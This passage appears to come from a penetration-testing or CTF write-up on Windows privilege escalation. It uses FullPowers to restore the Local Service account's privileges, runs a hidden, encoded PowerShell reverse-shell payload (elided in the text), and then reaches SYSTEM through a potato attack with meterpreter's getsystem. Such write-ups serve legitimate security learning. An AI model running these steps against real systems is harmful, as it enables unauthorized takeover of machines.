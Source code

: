 Normally, Local Service account would have more privilege than this including SeAssignPrimaryTokenPrivilege and SeImpersonatePrivilege so I will use [FullPowers](https://github.com/itm4n/FullPowers) to restore all privileges of Local Service which will be used to get SYSTEM privilege later.

![32ffcc50fb35d423eb6a241525b85c9f.png](/resources/32ffcc50fb35d423eb6a241525b85c9f.png)

I use the same payload hosting with web delivery module to execute reverse shell payload as Local Service with full privilege and now I have both dangerous privilege ready for potato attack.
```
FullPowers.exe -c "powershell.exe -nop -w hidden -e <...SNIP...>"
```
![c76845bb74a5ccac406814e0267fb5b2.png](/resources/c76845bb74a5ccac406814e0267fb5b2.png)

### Local Service to SYSTEM with Potato
Since I use meterpreter as my reverse shell payload then I can use a single command to become SYSTEM like this
```
getsystem
```